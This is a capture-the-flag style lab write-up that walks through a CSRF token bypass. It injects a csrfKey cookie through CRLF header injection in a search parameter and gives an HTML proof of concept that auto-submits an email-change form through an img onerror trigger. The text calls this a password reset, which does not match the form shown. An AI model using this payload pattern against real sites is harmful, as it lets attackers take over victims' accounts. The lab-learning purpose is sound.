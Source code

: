 Two CSRF tokens, and now one of them is attached as a cookie:

![](imgs/csrf_bypass_token_attached_to_cookie.png)

**We have to copy these two tokens, DROP the request and add these tokens in the CSRF PoC.**
The real problem is that we cannot attach cookies to our CSRF PoC, because the cookies are inside the user's browser.

In order to attach the `csrfKey` cookie to the victim, the lab has an intended path that is pretty "XD" and I had to check it:
- Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
- Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser:
    `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`

Therefore, we have to add a script that performs a request to the website with a similar pattern **so the `csrfKey` cookie is set**, and then perform the CSRF attack.

The PoC will be something like this:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0100b604da6adf8176dff500e200f1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="whatever&#64;test&#46;es" />
      <input type="hidden" name="csrf" value="9RaDWhNvv0ED8q3coieoKTzOkHDxD2cy" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a0100b604da6adf8176dff500e200f1.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=AKCLybyvPpWaEtx7VUVnblqIN9qpofs8%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>```
![](imgs/csrf_bypass_token_attached_to_cookie-1.png)

This way, a request that sets the cookie is performed and then the `onerror` part triggers and submits the form that is created to reset the user's password:
![](imgs/csrf_bypass_token_attached_to_cookie-2.png)